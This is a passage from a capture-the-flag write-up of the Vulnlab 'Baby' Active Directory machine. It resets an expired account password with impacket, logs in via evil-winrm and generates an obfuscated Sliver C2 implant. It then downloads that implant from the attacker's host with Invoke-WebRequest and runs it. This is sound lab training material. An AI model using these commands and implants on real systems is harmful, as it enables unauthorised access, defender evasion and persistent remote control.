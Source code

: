 We found that the user `caroline.robinson` has the status `STATUS_PASSWORD_MUST_CHANGE`, we can use `smbpasswd.py` from the impacket scripts to change the password.

```bash
sylsec$ python3 smbpasswd.py baby.vl/Caroline.Robinson:'BabyStart123!'@$ip -newpass Summer2018!
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

Now, let's try to use WinRM to log in to the machine.

```bash
sylsec$ evil-winrm -i $ip -u Caroline.Robinson -p 'Summer2018!'
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> 
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> type ..\Desktop\user.txt
VL{<hash>}
```

# Root / Privilege Escalation

Since I highly dislike `evil-winrm` due to its instability (atleast on my machine) and the fact that the machine has an active defender which will flag most of the binaries that I will try to put for further enumeration as malicious, I decided to spin up [SilverC2](https://github.com/BishopFox/sliver).

```
sylsec$ silversrv

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░
                  ░      ░  ░ ░        ░     ░  ░   ░

All hackers gain fear
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

[server] sliver > generate --mtls tun0:8888
[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 39s
[*] Implant saved to /home/syl/vulnlab/Baby/EXISTING_CROTCH.exe
```

Now, that I have an implant, I've transferred it to the server with `Invoke-WebRequest`.

```powershell
*Evil-WinRM* PS C:\Windows\TEMP> iwr http://<myIp>:8000/EXISTING_CROTCH.exe -OutFile EXISTING_CROTCH.exe
*Evil-WinRM* PS C:\Windows\TEMP> .\EXISTING_CROTCH.exe
```
